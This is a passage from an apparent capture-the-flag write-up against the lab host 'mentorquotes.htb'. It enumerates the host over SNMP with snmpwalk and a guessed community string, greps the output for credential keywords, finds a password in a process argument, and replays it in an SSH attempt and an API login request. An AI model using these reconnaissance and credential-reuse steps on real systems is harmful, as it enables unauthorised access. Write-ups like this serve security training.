 Let's enumerate with `snmpwalk` -- redirecting the output to snmp.txt, given there is a **lot** of output, much more than the public community string.  We make sure to specify version 2c, given the newly found community string is *only* version 2c:

```bash
 $snmpwalk -v 2c -c internal 10.10.11.193 > snmp.txt
```

I will spare you the gory details, as the output contains a lot -- running processes, and basically everything imaginable.  A very quick scroll through gave a lot of noise, and wasn't very interesting.

Let's grep for anything interesting that may help us get access to the system:

```bash
grep -E 'user|login|pass|root|admin' snmp.txt 
SNMPv2-MIB::sysContact.0 = STRING: Me <admin@mentorquotes.htb>
HOST-RESOURCES-MIB::hrSystemInitialLoadParameters.0 = STRING: "BOOT_IMAGE=/vmlinuz-5.15.0-56-generic root=/dev/mapper/ubuntu--vg-ubuntu--lv ro net.ifnames=0 biosdevname=0
HOST-RESOURCES-MIB::hrSWRunName.912 = STRING: "systemd-logind"
HOST-RESOURCES-MIB::hrSWRunName.1696 = STRING: "login.sh"
HOST-RESOURCES-MIB::hrSWRunName.2104 = STRING: "login.py"
HOST-RESOURCES-MIB::hrSWRunPath.912 = STRING: "/lib/systemd/systemd-logind"
HOST-RESOURCES-MIB::hrSWRunParameters.1696 = STRING: "/usr/local/bin/login.sh"
HOST-RESOURCES-MIB::hrSWRunParameters.2104 = STRING: "/usr/local/bin/login.py kj23sadkj123as0-d213"
```

It looks like from the above maybe `kj23sadkj123as0-d213` is a password being passed as an argument to a python script located at `/usr/local/bin/login.py`.

I tried SSHing into the machine with usernames `admin@mentorquotes.htb` and `james@mentorquotes.htb` using `kj23sadkj123as0-d213` as the password, but failed.

Let's try the auth endpoint against the exposed API again:

```
POST /auth/login HTTP/1.1
Host: api.mentorquotes.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://mentorquotes.htb/docs
Content-Type: application/json
Origin: http://mentorquotes.htb
Content-Length: 100
DNT: 1
Connection: close

{
  "email": "james@mentorquotes.htb",
  "username": "james",
  "password" :"kj23sadkj123as0-d213"
}
```
